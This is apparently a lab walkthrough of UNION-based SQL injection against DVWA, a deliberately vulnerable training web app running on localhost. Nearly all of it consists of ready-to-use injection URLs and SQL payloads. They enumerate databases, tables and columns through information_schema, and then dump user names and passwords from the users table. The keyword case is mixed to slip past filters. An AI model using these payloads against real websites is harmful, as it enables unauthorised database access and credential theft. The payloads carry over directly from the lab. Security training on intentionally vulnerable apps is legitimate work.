

### Extract database name

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,schema_name,0x7c)%20fRoM%20information_schema.schemata--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```




### Extract tables from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,table_name,0x7c)%20fRoM%20information_schema.tables%20wHeRe%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,table_name,0x7c) fRoM information_schema.tables wHeRe table_schema='dvwa'
```


### Extract column name from database

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=%27dvwa%27--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema='dvwa'
```

or

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,column_name,0x7c)%20fRoM%20information_schema.columns%20where%20table_schema=database()--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,column_name,0x7c) fRoM information_schema.columns where table_schema=database()
```


Note: here column name can be from different table as well **comment_id** and **comment** is from **guestbook** table
So Craft payload accordingly for dumping full data

### EXTRACT data from table

```http
http://127.0.0.1:42001/vulnerabilities/sqli/?id=0%27union%20select%201,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c)%20fRoM%20users--%20-&Submit=Submit#
```

```sql
union select 1,gRoUp_cOncaT(0x7c,user,0x3a,password,0x7c) fRoM users
```


